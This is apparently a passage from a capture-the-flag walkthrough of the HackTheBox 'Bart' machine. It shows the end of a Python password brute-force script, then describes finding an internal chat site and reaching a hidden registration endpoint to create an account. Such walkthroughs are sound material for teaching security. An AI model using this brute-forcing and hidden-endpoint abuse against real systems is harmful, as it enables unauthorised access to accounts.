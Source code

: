 ````
    words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]

    pool = Pool(processes=nprocs)

    i = 0
    print_status(0, len(words))
    for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
        if status:
            sys.stdout.write("\n[+] Found password: {} \n".format(password))
            pool.terminate()
            sys.exit(0)
        else:
            i += 1
            print_status(i, len(words))

    print("\n\nPassword not found\n")

def print_status(i, l, max=30):
    sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i*max)//l), " " * (max - ((i*max)//l)), i, l))

if __name__ == '__main__':
    if len(sys.argv) != 2:
        usage()
    main(sys.argv[1])



````

Browsing around you see there is an entry for the “Internal Chat” service
Viewing the details of “Internal Chat” reveals that there is another application on a different domain “internal-01.bart.htb”


## http://internal-01.bart.htb


Visting internal-01.bart.htb in our browser reveals the login page of bart’s internal “dev chat”.
http://internal-01.bart.htb/simple_chat/login_form.php

### github
github repo https://github.com/magkopian/php-ajax-simple-chat. To validate that these two applications are the same, I inspected the css/chat_global.css 

The application removed the register_form.php page, and the link to it from the login_form.php page.

Still, register_form.php posts to register.php, which we saw in the gobuster results above.

We’ll use curl to create an account and get access to the site:
